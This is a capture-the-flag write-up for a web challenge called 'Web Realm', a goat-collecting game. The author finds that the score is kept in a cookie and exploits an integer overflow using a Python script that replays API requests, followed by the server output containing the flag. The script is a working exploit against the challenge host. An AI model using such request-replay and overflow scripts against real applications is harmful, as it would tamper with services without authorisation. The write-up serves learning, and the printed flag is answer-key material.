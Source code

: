 # Description
R-Boy arrives in the Web Realm, a celestial domain comprised of floating islands in the digital sky. These highly interconnected islands create an intricate network resembling a spider's web. Here, energy flows swiftly, and R-Boy senses a strange energy.
http://gamebox1.reply.it/web1-f1103cad4b0542c69e23b267e173799295c4f217/
# Write-up

Loading up burp and browsing to the given URL, we can observe a game where we move sideways to collect goats. Each red goat is -2000 points, each green goat is +2000 points.
Goal is to obtain at least 65536 points, which is already a good hint that this might have something to do with 16bit int overflows.

![](./Images/goat_game.png)


Burp reveals the API requests for each type of goat.

![](./Images/red.png)![](./Images/green.png)

Important to note that there are positive and negative scores contributing to the total score, and that the current score status is kept in the cookie.

Just trying to collect green goats from calling the API directly reveals an int underflow on the negative score, so we can combine both scores to reach a higher value. We reach the maximum value possible for the positive score, and keep collecting red goats until the value underflows and becomes positive, scoring us the flag:

```
import requests
import time

s = requests.Session()
goat = {'type': 'green'}
x = requests.post('http://gamebox1.reply.it/web1-f1103cad4b0542c69e23b267e173799295c4f217/got-a-goat', data = goat)

for i in range(32):
    x = requests.post('http://gamebox1.reply.it/web1-f1103cad4b0542c69e23b267e173799295c4f217/got-a-goat', data = goat, cookies=x.cookies.get_dict())
    print(x.content)
    time.sleep(2)

goat = {'type': 'red'}
for i in range(36):
    x = requests.post('http://gamebox1.reply.it/web1-f1103cad4b0542c69e23b267e173799295c4f217/got-a-goat', data = goat, cookies=x.cookies.get_dict())
    print(x.content)
    time.sleep(2)
```

```
...
b'{"negative_score":62000,"positive_score":64000,"total_score":2000}\n'
b'{"negative_score":64000,"positive_score":64000,"total_score":0}\n'
b'{"negative_score":66000,"positive_score":64000,"total_score":"{FLG:y0U-aT3_700-mUch_B4D_GO4T}"}\n'
```